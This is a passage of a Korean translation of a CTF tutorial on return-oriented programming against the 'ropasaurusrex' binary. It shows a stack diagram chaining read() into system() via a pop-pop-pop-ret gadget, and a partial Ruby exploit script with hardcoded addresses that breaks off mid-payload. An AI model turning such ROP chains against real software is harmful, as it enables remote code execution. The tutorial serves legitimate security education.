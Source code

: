 
이건 다음 함수를 실행할 때 1~4개의 인자를 스택에서 지울 수 있게 해줍니다.
완벽해요!


그리고 이걸 직접 따라해 보고 있다면, pop들이 연속한 주소에 있어야 한다는 걸
기억하세요. 그래서 `egrep`으로 찾는 건 약간 위험합니다.


이제 `read()`가 사용한 세 개의 인자를 지우기 위해 세 개의 `pop`과 `ret`이 필요할
때, 주소 `0x80484b6`을 사용하면 됩니다. 그러면 스택을 이렇게 만들겠죠.


``` text
+----------------------+
|         ...          |
+----------------------+

+----------------------+ <-- system()의 프레임 시작
|      void *arg       | - 0x08049530 (버퍼)
+----------------------+
|   [return address]   | - 0x44444444
+----------------------+

+----------------------+
| [address of system]  | - 0xb7ec2450
+----------------------+

+----------------------+ <-- read()의 프레임 시작
|     size_t count     | - strlen(cmd)
+----------------------+
|      void *buf       | - 0x08049530 (버퍼)
+----------------------+
|        int fd        | - 0 (stdin)
+----------------------+
| [address of "pppr"]  | - 0x080484b6
+----------------------+

+----------------------+
|         ...          |
+----------------------+
```


원격 서버에서 보내는 걸 받기 위해 `s.read()`를 취약점 공격 스크립트 마지막에
추가합시다. 현재 스크립트는 다음과 같습니다.

``` ruby
require 'socket'

s = TCPSocket.new("localhost", 4444)

# The command we'll run
cmd = ARGV[0] + "\0"

# From objdump -x
buf = 0x08049530

# From objdump -D ./ropasaurusrex | grep read
read_addr = 0x0804832C
# From objdump -D ./ropasaurusrex | grep write
write_addr = 0x0804830C
# From gdb, "x/x system"
system_addr = 0xb7ec2450
# From objdump, "pop/pop/pop/ret"
pppr_addr = 0x080484b6

# Generate the payload
payload = "A"*140 +
```

[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://wiki.skullsecurity.org/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump